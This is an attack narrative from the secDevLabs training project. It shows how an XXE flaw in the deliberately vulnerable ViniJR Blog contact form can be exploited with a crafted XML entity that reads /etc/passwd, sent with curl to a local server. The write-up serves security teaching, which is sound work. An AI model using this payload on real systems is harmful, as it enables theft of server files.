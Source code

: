 # Attack Narrative - ViniJR Blog (XXE)

The main goal of this documentation is to describe how a malicious user could exploit a XXE vulnerability intentionally intalled on ViniJR Blog from secDevLabs.

If you don't know [secDevLabs](https://github.com/globocom/secDevLabs) or this [intended vulnerable web application](https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a4/vinijr-blog) yet, you should check them before reading this narrative. 

----

## 👀

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users send messages to the server, as shown in the following picture:

<img src="attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being build using an XML: 

<img src="attack-2.png" align="center"/>


To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.txt localhost:10080/contact.php ; echo
```

By checking the source code of the [file](../app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="attack-3.png" align="center"/>

## 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.txt` to perform a XXE: 

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app: 

```sh
curl -d @evilxml.txt localhost:10080/contact.php ; echo
```

<img src="attack-4.png" align="center"/>
